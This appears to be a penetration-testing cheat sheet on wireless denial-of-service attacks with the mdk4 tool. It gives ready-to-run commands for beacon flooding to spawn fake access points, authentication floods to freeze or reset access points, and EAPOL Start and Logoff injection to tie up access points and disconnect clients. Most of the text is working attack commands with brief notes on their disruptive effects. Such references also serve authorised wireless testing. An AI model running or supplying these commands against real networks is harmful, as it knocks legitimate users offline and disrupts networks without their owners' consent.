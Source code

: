 ## Beacon Flooding
Generate many fake APs by sending lots of beacon frames -> Confuse clients, can crash network scanners & drivers
```
mdk4 mon0 b
mdk4 mon0 b -s 1000 	# Increased speed
mdk4 mon0 b -m -w ta	# Use valid AP MAC & only create WPA/WPA2 networks
mdk4 mon0 b -a -w nta -m
```
* `-a`: Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
* `-w`: n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
* `-m`: Use real BSSIDS

## Authentication DoS
Send authentication frames to all APs found in range -> Too many clients can freeze or reset several APs
```
mdk4 mon0 a -m
mdk4 mon0 a -m -a <MAC_AP>  # Only target specified AP (random data from random clients)
mdk4 mon0 a -m -i <MAC_AP>  # Only target specified AP + Intelligent test (capture & repeat data packet from connected clients)
```

## EAPOL Start & Logoff Packet Injection
* Flood AP with EAPOL Start frames to keep it busy with fake sessions -> disable handling of any legitimate clients:
```
mdk4 mon0 e -t <MAC_AP>
```
* Inject fake EAPOL Logoff messages -> Kick clients from AP:
```
mdk4 mon0 e -t <MAC_AP> -l
```

</br>
